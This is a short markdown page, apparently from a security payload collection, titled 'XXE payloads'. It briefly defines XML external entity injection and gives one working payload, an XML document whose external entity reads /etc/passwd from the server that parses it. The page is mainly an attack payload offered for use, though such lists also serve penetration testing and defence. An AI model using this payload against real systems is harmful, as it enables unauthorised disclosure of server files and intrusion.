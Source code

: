 # XXE payloads

[XML external entity injection (also known as XXE)](https://portswigger.net/web-security/xxe) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data.

## Payloads

Show /etc/passwd.
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```
